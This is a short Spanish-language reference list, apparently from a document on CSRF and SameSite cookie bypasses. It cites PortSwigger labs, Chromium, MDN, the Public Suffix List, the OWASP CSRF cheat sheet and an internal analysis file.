- PortSwigger Web Security Academy. (s.f.). *Lab: SameSite Lax bypass via cookie refresh*. https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh
- PortSwigger Web Security Academy. (s.f.). *Bypassing SameSite cookie restrictions*. https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions
- Chromium Project. (s.f.). *SameSite Updates*. https://www.chromium.org/updates/same-site/
- MDN. (s.f.). *Set-Cookie — SameSite attribute*. https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#samesitesamesite-value
- Public Suffix List. (s.f.). https://publicsuffix.org/
- OWASP Foundation. (2021). *Cross-Site Request Forgery Prevention Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html
- Inventario interno: [`inventario/03-analisis-vulnerabilidades/web/analisis-csrf.md`](../../../inventario/03-analisis-vulnerabilidades/web/analisis-csrf.md)
